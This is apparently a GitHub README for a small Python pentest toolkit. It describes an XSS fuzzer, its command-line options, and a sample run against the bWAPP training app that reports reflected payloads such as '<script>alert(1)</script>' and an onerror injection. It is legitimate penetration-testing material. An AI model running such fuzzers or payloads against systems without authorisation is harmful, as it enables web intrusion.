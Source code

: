 # python_offensive_scripts
## A collection of Python scripts to automate/help during a pentest  

Borrowed some of the scripts from https://github.com/brandonprry/gray_hat_csharp_code
and translated them in **python** (and made them smarter).<br>


## xss_fuzzer
An easy and stupid XSS fuzzer that fuzz all parameters (still missing headers, it's in the TODO list)
with a small payload list.<br>
The script tries to detect an XSS vuln if the payload is rendered in the HTML output (but no check if the js is executed)
The usage of the script is pretty easy (and sqlmap like):
```bash
python xss_fuzzer.py --url <URL> --cookie <COOKIES> --data <POST_DATA> -v 
```
Where:
+ `--url`: The target URL
+ `--cookie`: The cookie string, if needed
+ `--data`: The data for the POST request
+ `-v`: Enables the verbose mode, use `git diff` to spot differences between correct requests and malformed ones (with the payloads)

An example (**bWAPP** - Reflected XSS (GET)):

```bash
python xss_fuzzer.py --url "http://172.16.13.130/bWAPP/xss_get.php?firstname=a&lastname=a&form=submit" --cookie "acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada; PHPSESSID=creb27ffbb441il42ips8515j5; security_level=0"  
[!] Found payload: <script>alert(1)</script> in body for param: lastname
[!] Found payload: "><script>alert(1)</script> in body for param: lastname
[!] Found payload: " onerror="alert(1)" in body for param: lastname
[!] Found payload: <script>alert(1)</script> in body for param: firstname
[!] Found payload: "><script>alert(1)</script> in body for param: firstname
[!] Found payload: " onerror="alert(1)" in body for param: firstname
```

### Notes:
+ Actually, there is no need to use such a simple payload list if there is no check on JS execution.<br>
More sofisticated and encoded payloads will be more useful, I'll add them ASAP.
+ Replicate the -p option in sqlmap
